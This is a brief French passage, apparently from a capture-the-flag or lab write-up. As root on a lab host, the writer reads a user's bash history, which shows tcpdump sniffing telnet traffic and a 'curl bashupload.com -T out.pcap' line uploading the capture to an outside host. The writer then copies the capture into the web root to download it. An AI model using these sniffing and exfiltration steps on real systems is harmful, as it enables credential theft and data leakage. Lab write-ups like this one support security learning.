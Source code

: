 Et en affichant le contenu de `.bash_history` pour essayer de découvrir quelque chose on voit:

```
root@web1:/home/batman# cat .bash_history 
tcpdump -elnXi eth0 port 23 &
telnet 10.129.42.11
ls -la
tcpdump -r out.pcap -v
tcpdump -qns 0 -A -r out.pcap 
tcpdump -ns 0 -r out.pcap 
tcpdump -nqs 0 -r out.pcap 
tcpdump -ns 0 -A -r out.pcap 
tcpdump -qns 0 -X -r out.pcap 
tcpdump -qns 0 -1 -r out.pcap 
tcpdump -qns 0 -A -r out.pcap 
curl bashupload.com -T out.pcap 
cd
tcpdump -qns 0 -A -r out.pcap 
ssh batman@10.129.42.11
telnet 10.129.42.11
cp out.pcap /var/www/html/
cp out2.pcap /var/www/html/
ls
```

On voit ici qu'on peut simplement copier le fichier wireshark `.pcap` dans le fichier `/var/www/hmtl` et le télécharger en accédant le site http. En faisant:

`cp out2.pcap /var/www/html/`

Après on accède le site dans l'URL `http://10.129.42.10/out2.pcap` comme montre l'image, pour télécharger le fichier wireshark:

![](./url-pcap.png)
